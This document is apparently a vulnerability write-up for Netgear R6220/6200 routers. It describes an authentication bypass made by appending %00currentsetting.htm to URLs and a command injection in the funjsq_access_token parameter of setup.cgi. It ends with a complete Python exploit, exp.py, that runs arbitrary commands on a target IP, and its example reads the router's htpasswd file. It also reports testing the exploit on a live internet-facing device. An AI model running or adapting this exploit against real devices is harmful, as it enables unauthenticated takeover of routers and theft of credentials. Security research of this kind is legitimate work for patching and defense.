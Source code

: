# netgearR6220

There is an unauthorized connection in NetGear 6200, but the unauthorized connection is too weak. Want to find a command to execute, combined to use, so there is this article.
The unauthorized exp here is simple,
```
http://83.251.186.xxx/index.htm%00currentsetting.htm
```
Just adding %00currentsetting.htm to the url bypasses the authorization check. The principle here https://github.com/theRaz0r/Iot-vulnerability/blob/main/Netgear/DGN1000_unauthorized_comamnd_injection/DGN1000_unauthorized_comamnd_injection.md has been analyzed in detail.




---


## Command execution

![](vx_images/581632855402960.png)
![](vx_images/402743549525060.png)
todo=funjsq_login calls the sub_406790 function, and the funjsq_access_token in it causes the command to execute.

Dynamic debugging
![](vx_images/50594073009872.png)

![](vx_images/464842752139221.png)
When executing command, check the value of the s0 register
![](vx_images/202371524866445.png)
Found our value has come in.
He'll execute it here
COMMAND("/tmp/funjsq/bin/funjsq.sh login 123465789|ls>1")

---
# Online test
Because the simulation doesn't work, find an online machine to test it

![](vx_images/363397894279190.png)

The signal was successfully received here
![](vx_images/474649059353417.png)

The unauthorized RCE successfully completed.

---


exp.py

```
import requests
import sys

# Define the function to perform the attack

def attack(target_ip, cmd):
    try:
        # 构造攻击的URL
        burp0_url = f"http://{target_ip}:8080/setup.cgi?todo=funjsq_login&funjsq_access_token=12345|{cmd}&test=11%00currentsetting.htm"
        burp0_headers = {
            "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",
            "Accept": "*/*",
            "Accept-Language": "en-US,en;q=0.5",
            "Accept-Encoding": "gzip, deflate, br",
            "X-Requested-With": "XMLHttpRequest",
            "Connection": "close",
           
        }

        # 发送带有头部信息的GET请求到目标URL，并设置超时时间为5秒
        response = requests.get(burp0_url, headers=burp0_headers, timeout=5)

        # 检查响应状态码是否为200（OK）
        if response.status_code == 200:
            print("Response content:")
            print(response.text)
        else:
            print("Request failed with status code:", response.status_code)
    except requests.exceptions.Timeout:
        print("Request timed out after 5 seconds.")
    except Exception as e:
        print(f"Error: {e}")

# 使用示例
# attack('192.168.1.1', 'ls -la')

# Check if the script is run directly (not imported as a module)
if __name__ == "__main__":
    # Check if the correct number of command line arguments is provided
    if len(sys.argv) != 3:
        print("Usage: python exp.py target_ip \"command\"")
        sys.exit(1)

    # Read the target IP and command from command line arguments
    host = sys.argv[1]  # The target IP address, for example "151.71.83.247"
    payload = sys.argv[2]  # The command to execute, for example "cat%20/tmp/etc/htpasswd"

    print(f"Target: {host}")
    print(f"Payload: {payload}")
    
    # Call the attack function with the provided arguments
    attack(host, payload)
```





